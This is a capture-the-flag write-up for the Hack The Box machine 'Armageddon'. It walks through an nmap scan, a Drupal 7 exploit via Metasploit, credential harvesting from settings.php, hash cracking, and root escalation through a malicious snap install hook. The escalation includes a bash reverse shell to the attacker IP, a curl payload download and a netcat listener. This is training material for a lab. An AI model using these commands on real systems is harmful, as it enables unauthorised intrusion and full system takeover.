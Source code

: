 # nmap
<pre>
# Nmap 7.91 scan initiated Sun Jun  6 09:29:41 2021 as: nmap -sC -sV -A -p- -vv --open -oA nmap/10.10.10.233-Armageddon 10.10.10.233
Nmap scan report for armageddon.htb (10.10.10.233)
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-06-06 09:29:41 SAST for 95s
Not shown: 65115 closed ports, 418 filtered ports
Reason: 65115 conn-refused and 418 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON  VERSION
<span style="background-color:yellow; color:000;font-weight:bold"> 22/tcp open  ssh</span>     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC2xdFP3J4cpINVArODYtbhv+uQNECQHDkzTeWL+4aLgKcJuIoA8dQdVuP2UaLUJ0XtbyuabPEBzJl3IHg3vztFZ8UEcS94KuWP09ghv6fhc7JbFYONVJTYLiEPD8nrS/V2EPEQJ2ubNXcZAR76X9SZqt11JTyQH/s6tPH+m3m/84NUU8PNb/dyhrFpCUmZzzJQ1zCDStLXJnCAOE7EfW2wNm1CBPCXn1wNvO3SKwokCm4GoMKHSM9rNb9FjGLIY0nq+8mt7RTJZ+WLdHsje3AkBk1yooGFF+0TdOj42YK2OtAKDQBWnBm1nqLQsmm/Va9T2bPYLLK5aUd4/578u7h
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4kP4gQ5Th3eu3vz/kPWwlUCm+6BSM6M3Y43IuYVo3ppmJG+wKiabo/gVYLOwzG7js497Vr7eGIgsjUtbIGUrY=
|   256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG9ZlC3EA13xZbzvvdjZRWhnu9clFOUe7irG8kT0oR4A
<span style="background-color:yellow; color:000;font-weight:bold"> 80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)</span>
|_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
|_<span style="background-color:yellow; color:000;font-weight:bold">http-generator: <span style="background-color:red; color:fff;font-weight:bold">Drupal 7</span> (http://drupal.org)</span>
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  6 09:31:16 2021 -- 1 IP address (1 host up) scanned in 95.15 seconds
</pre>
- drupal site version 7, possible vulnerable version as drupal is teasing version 9 at this time

# web page

![](Armageddon-HTB-01.png)



![](Armageddon-HTB-02.png)

- site is a built on drupal
- theme consistent with drupal theme
- file and folder structure from robots.txt consistent with drupal site
- drupal confirmed on [[HTB-Live/10.10.10.233-armageddon/10 - nmap]] nmap

# user
![](Armageddon-HTB-03.png)

- searchsploit suggests a specific Metasploit exploit

![](Armageddon-HTB-04.gif)

- Metasploit establishes a session

![](Armageddon-HTB-05.png)

- Stabilizing shell <span style="background-color:red;color:fff;font-weight:bold;">fails</span>

![](Armageddon-HTB-06.gif)
- using the 'unstable' shell to navigate to sites/default/settings.php, the usual place for database credentials on a drupal site.


````php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
````
- enumeration drupal site database connection settings reveals database credentials

![](Armageddon-HTB-07.gif)

- credentials from settings.php were used to retrieve a hash
````
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
````

![](Armageddon-HTB-08.gif)


````bash
john thehash --show
?:booboo

1 password hash cracked, 0 left
````

- the password matching the hash was in the wordilst *rockyou.txt* (````booboo````)

![](Armageddon-HTB-09.png)


- The only account on the machine that has access to an interactive shell is ``brucetherealadmin``

![](Armageddon-HTB-10.png)

- credendtials ````brucetherealadmin:booboo```` are able to login

# root

![](Armageddon-HTB-11.png)

- brucetherealadmin can run the following command as root
````bash
/usr/bin/span install *
````

![](Armageddon-HTB-13.gif)

```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

```
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

- all that is needed is for a means to run a command within the context of the above command (as root). GTFObins has the required remedy. 
- what is required is to embed a command with the FPM package manager then we can run a shell command as root.

![](Armageddon-HTB-13.png)

- first the package manager FPM needs to be installed

````bash
echo 'bash -i >& /dev/tcp/10.10.14.3/9001' 0>&1 > callhome.sh
chmod +x callhome.sh
````

- create the callhome.sh script on victim machine as above

````bash
COMMAND='bash -c /home/brucetherealadmin/callhome.sh'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
````

- on the attacking machine (Kali Box), prepare the payload by copying and pasting the script as above.

````bash
sudo python3 -m http.server 80
````

- from the temp folder where the payload is generated, run the python web server as above; so that the payload may be downloaded to the victim machine.

````bash
curl http://10.10.14.3/xxxx_1.0_all.snap --output sxxxx_1.0_all.snap
````

- since there isn't wget on the victim machine, use curl to download the payload as shown above.

````bash
nc -nvlp 9001
````

- run the listener as above

````bash
sudo /usr/bin/snap install sxxxx_1.0_all.snap --dangerous --devmode
````

- finaly run the snap command to load the payload as above
- or watch the animated gif below


![](Armageddon-HTB-14.gif)